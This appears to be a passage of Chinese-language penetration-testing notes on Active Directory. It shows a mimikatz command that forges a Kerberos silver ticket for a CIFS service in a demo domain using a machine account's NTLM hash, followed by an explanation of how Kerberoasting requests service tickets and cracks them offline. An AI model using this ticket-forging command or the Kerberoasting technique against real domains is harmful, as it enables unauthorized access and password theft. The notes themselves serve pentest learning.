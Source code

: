用法

    kerberos::golden /domain:demo.local /sid:S-1-5-21-1239069908-882060383-2558203358 /target:owa2010dc.demo.local /service:cifs /rc4:aac6185241728f7685c8d50c61573b75 /user:silver /ptt
	(/rc4:aac6185241728f7685c8d50c61573b75 這裏我用的是owa2010dc$机器賬戶的NTLM hash
![Silver_Ticket1](域渗透相关/Silver_Ticket1.png)
			
			
## Kerberoast (Kerberos TGS服务票据(Service Ticket)离线爆破)
简义 : 发生在上面的过程3,4, 目标的服务账户的服务器主体名称(SPN)请求一个Kerberos服务票据 (TGS) 。

这里会采用一个有效的用户认证票据(TGT)来请求一个或几个运行在服务器上的目标服务票据。

域控不会检测用户是否真正连接到了这些资源上(即使用户可能真的有权限访问)。

域控会在活动目录中查找SPN并且用SPN关联的用户账户把票据进行加密，以此赋予用户访问服务的权限。

请求的Kerbero服务票据的加密类型是 RC4_HMAC_MD5, 这意味着服务账户的NTLM密码哈希会被用来加密服务票据。

所以Kerberoast能够通过尝试不同的NTLM哈希来解开kerberos票据，一旦票据被成功解开，它的密码也就到手了。
(获得服务票据不需要提权，同时也不会发送数据到目标机器。)
	